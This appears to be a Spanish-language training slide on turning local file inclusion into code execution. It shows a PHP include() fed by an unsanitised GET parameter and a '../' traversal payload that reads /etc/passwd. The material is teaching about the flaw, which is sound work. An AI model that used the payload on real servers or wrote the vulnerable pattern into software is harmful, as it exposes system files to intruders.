

# Ejemplos
LFI a RCE Inyección de código
Como explotar este ejemplo

$file = $_GET['log'];
include('/var/log/apache2/'. $file);

Como la no ha sido inspeccionada y algunos caracteres no han sido reemplazados o puestos en lista negra, somos libres de escribir lo que nosotros queramos.

Por ejemplo si seleccionamos “Apache access”, el valor que se va a enviar al código de php es “access.log”. La aplicación lo procesa de esta manera

/var/log/apache2/access.log

Nosotros en este caso podemos jugar con “..” y “.” en Linux que son para moverse entre directorios, y leer otros archivos

$file = ../../../../../../../etc/passwd
/var/log/apache2/../../../../../../../etc/passwd